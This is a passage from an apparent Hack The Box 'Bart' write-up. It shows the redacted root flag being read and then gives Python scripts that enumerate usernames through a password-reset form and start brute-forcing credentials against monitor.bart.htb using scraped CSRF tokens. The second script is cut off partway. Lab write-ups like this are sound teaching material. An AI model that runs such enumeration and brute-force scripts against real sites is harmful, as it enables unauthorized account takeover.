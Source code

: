 ### Obtaining root flag

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
<Redacted root flag>
```
## Post-Exploitation
### Script used to enumerate usernames

```python3
import requests
from bs4 import BeautifulSoup

def getUsernames():
    usernamelist = open("usernames.txt").readlines()
    usernames = []
    for username in usernamelist:
        username = username.strip()
        usernames.append(username)
    return usernames

def checkUsername():
    usernames = getUsernames()
    url = "http://monitor.bart.htb/?action=forgot"
    s = requests.Session()
    r = s.get(url)
    soup = BeautifulSoup(r.text,'html.parser')
    csrf_value = soup.find('input',{'name':'csrf'}).get('value')
    print("[+] Obtained CSRF value: {csrf_value}".format(csrf_value=csrf_value))
    for username in usernames:
        data = {'csrf': csrf_value, 'user_name':username}
        resp = s.post(url, data=data)
        if "The provided username could not be found." in resp.text:
            continue
        else:
            print("Username found ===> {username}".format(username=username))
if __name__ == '__main__':
    checkUsername()
```

### Script used to enumerate credentials

```python3
import requests
from bs4 import BeautifulSoup

def getPasswords():
    password_file = open("passwords.txt").readlines()
    passwords = []
    for password in password_file:
        password = password.strip()
        passwords.append(password)
    return passwords

def checkCredentials():
    passwords = getPasswords()
    url = "http://monitor.bart.htb/?"
    s = requests.Session()
    r = s.get(url)
    soup = BeautifulSoup(r.text,'html.parser')
    csrf_value = soup.find('input',{'name':'csrf'}).get('value')
    print("Obtained CSRF value: {csrf_value}".format(csrf_value=csrf_value))
```
